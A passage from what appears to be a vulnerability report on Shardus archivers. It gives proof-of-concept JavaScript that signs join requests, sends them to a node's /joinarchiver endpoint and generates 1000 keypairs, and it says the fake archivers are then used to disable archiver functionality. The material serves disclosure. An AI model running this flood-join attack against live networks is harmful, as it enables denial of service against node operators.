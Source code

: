 ```javascript
  return objCopy
}

module.exports = {
  sign,
  initJoinReq,
}
```

5. create a file and name it `utils.js` and write below code to it

_utils.js_

```javascript
const fetch = require('node-fetch')
const { core } = require('./build/Crypto')
const { initJoinReq } = require('./sign')
const { Utils } = require('@shardus/types')

async function requestJoin(nodePort, myArchiverIp, myArchiverPort, keypair) {
  const realCurve = core.convertSkToCurve(keypair.secretKey)
  const curve = realCurve
  const body = initJoinReq(keypair.publicKey, keypair.secretKey, curve, myArchiverIp, myArchiverPort)

  const url = `http://localhost:${nodePort}/joinarchiver`

  const res = await fetch.default(url, {
    method: 'post',
    body: Utils.safeStringify(body),
    headers: { 'Content-Type': 'application/json' },
    timeout: 100 * 1000,
  })

  console.log(`added archiver ${myArchiverPort}: `, await res.json())
}

module.exports = {
  requestJoin,
}
```

6. then create a file and name it `join.js` and copy below code into it. This file sends at most 1000 join request to a node with port `nodePort` which is 9004 (you can change it if your nodes are running in different ports). It also tells the node for each join request, our archiver port is a number between `myArchiverPortStart` to `myArchiverPortEnd`. Archivers with different `publicKey` but same `ip:port` are allowed to join the network. which is a bug too, but that is not case of this report, Anyway, we want our new archivers to have different `ip:port` because later we need it to maliciously disable functionality of archivers.

_join.js_

```javascript
const Crypto = require('./build/Crypto.js')

const count = 1000
const keys = []
for (let i = 0; i < count; i++) {
  const keypair = Crypto.core.generateKeypair()
  keys.push({
    publicKey: keypair.publicKey,
    secretKey: keypair.secretKey,
  })
}
writeFileSync('keys.json', JSON.stringify(keys))

```